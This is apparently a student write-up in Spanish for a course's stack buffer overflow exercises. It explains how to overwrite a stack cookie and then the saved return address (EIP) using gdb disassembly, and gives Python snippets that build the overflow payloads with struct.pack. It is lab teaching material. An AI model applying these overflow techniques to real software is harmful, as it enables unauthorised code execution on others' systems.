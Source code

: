 # Escalera Pedro, Iman Federico

### Ej 3

#### Challenge 01:
resuelto en clase

#### Challenge 02: 
La unica diferencia es que ahora debemos ingresar el valor que le queremos ingrsar a la cookie directamente en hexa de esta forma: 

    f.write('A'*70 + '\x04' + '\x03' + '\x02' + '\x01')

ya que en ASCII estos valores representan caracteres de control SOH, STX, ETX  y EOT.

Por lo que se hace imposible llegar desde texto a los valores requeridos.

#### Challenge 01 y 02:

La combinacion de los challenges 1 y 2 es facil:

ej1 : 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADCBA

ej2:

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

ej 1 y 2:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADCBA

#### Challenge 03: 
Este challenge no se puede solucionar de la misma forma que los anteriores. 

El problema aqui es que gets no puede leer todo el contenido ya que luego de llenar el buf con 60 A no encotramos con que debemos mandar un 0x00 lo cual le indica a gets que debe dejar de leer, rompiendo asi nuestra forma de solucion.

Lo que nos queda por hacer en este caso es pisar el registro eip el cual contiene el Program counter, con la direccion del print dentro del if. para hacer esto solo debemos llenar el buf con 60 A lugo la cookie con 4 A, luego el registro ebp con 4 A mas obteniendo asi 68 A y luego ingresa la direccion de memoria deseada para asi poder modificar el registro eip.
La direccion de memoria deseada se puede obtener dentro de gdb con el comando: 

    disas main
obteniendo: 

    0x08048438 <+0>:     push   %ebp

    0x08048439 <+1>:     mov    %esp,%ebp

    0x0804843b <+3>:     sub    $0x40,%esp

    0x0804843e <+6>:     movl   $0x0,-0x4(%ebp)

    0x08048445 <+13>:    lea    -0x40(%ebp),%eax

    0x08048448 <+16>:    push   %eax

    0x08048449 <+17>:    call   0x8048320 
    <gets@plt>
   
    0x0804844e <+22>:    add    $0x4,%esp
   
    0x08048451 <+25>:    cmpl   $0xd0a00,-0x4
    (%ebp)
   
    0x08048458 <+32>:    jne    0x8048467 <main+47>
   
    0x0804845a <+34>:    push   $0x8048544
   
    0x0804845f <+39>:    call   0x8048330 <puts@plt>
   
    0x08048464 <+44>:    add    $0x4,%esp
   
    0x08048467 <+47>:    mov    $0x0,%eax
   
    0x0804846c <+52>:    leave  
   
    0x0804846d <+53>:    ret   

Obteniendo en esta linea la direccion deseada:

    0x0804845a <+34>:    push   $0x8048544

Finalmente pasamos usamos la libreria struct con el metodo pack y la flag "<i" para pasar al 
la direccion de memoria en formato 	
little-endian(<) y como un int (i)

#### Challenge 01 y 03:

Aplicando la misma logica anterior podemos formar la solucion o con el sigueinte script:

    from struct import pack
    f = open('ej3', 'wb')
    f.write('A'*68+pack('<i', 0x0804845a)+'A'*8+'DCBA')
    f.close()

#### Challenge 02 y 03:

Para resolver estos challenge, cambiamos la solucion del 2 y lo solucionamos igual que el 3
es decir, pisamos el eip del challenge 2 para obtener un payload mas grande y asi poder meter la solucion del 3 en el mismo payload sin superposiciones. 


    f = open('ej2y3', 'wb')
    f.write('A'*68+pack('<i', 0x0804845a)+'A'*6+pack('<i', 0x0804845a))